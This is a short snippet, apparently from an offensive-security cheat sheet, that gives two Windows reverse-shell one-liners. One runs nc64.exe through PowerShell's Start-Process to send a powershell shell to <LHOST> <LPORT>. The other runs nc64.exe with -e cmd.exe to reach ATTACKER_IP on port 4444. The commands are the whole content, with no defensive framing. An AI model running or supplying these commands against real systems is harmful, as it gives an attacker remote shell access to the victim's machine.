 Powershell
```
Start-Process -FilePath "C:\nc64.exe" -ArgumentList "<LHOST> <LPORT> -e powershell"
```

CMD
```
c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444
```